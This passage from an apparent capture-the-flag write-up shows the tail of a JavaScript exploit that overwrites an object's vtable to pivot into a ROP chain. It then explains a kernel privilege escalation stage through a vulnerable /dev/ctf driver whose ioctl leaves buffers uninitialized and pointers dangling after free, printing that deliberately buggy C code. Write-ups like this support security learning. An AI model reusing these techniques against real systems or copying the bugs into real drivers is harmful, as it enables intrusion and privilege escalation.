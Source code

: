 ```javascript=
        //.............. 

        /* Change B[2]'s vtable and trigger destructor, jump to our ROP chain*/
        await B[0].write(itof(heap1), 4); // change B[2]'s vtable
        await B[2].ptr.reset(); // call [rax+8] == xchg rax, rsp...

        print("Done"); // Should never reach here
    })();
}
```

## Local Privilege Escalation ( kernel )

In this part of challenge, it installs a kernel module which will expose a device at `/dev/ctf`. It implements several functions: `ctf_read`, `ctf_write`, `ctf_ioctl` and `ctf_open`. We can use `ctf_ioctl` to allocate a kernel heap buffer for `ctf_read` and `ctf_write`'s usage. `ctf_ioctl` also allow us to free a kernel heap buffer. 

There are two vulnerabilities we used for achieve local privilege escalation. Both are in `ctf_ioctl`. An uninitialized heap is used for allocating the buffer. Because it didn't zero out the buffer, we can use it for address leaking. Another vulnerability is use-after-free. When we free a kernel heap buffer, it didn't set its pointer to NULL, making it still accessible with `ctf_read` and `ctf_write`.

```C
struct ctf_data {
  char *mem;
  size_t size;
};

static ssize_t ctf_ioctl(struct file *f, unsigned int cmd, unsigned long arg)
{
  struct ctf_data *data = f->private_data;
  char *mem;

  switch(cmd) {
  case 1337:
    if (arg > 2000) {
      return -EINVAL;
    }

    mem = kmalloc(arg, GFP_KERNEL);
    if (mem == NULL) {
      return -ENOMEM;
    }

    data->mem = mem;
    data->size = arg;
    break;

  case 1338:
    kfree(data->mem);
    break;

  default:
    return -ENOTTY;
  }

  return 0;
}
```
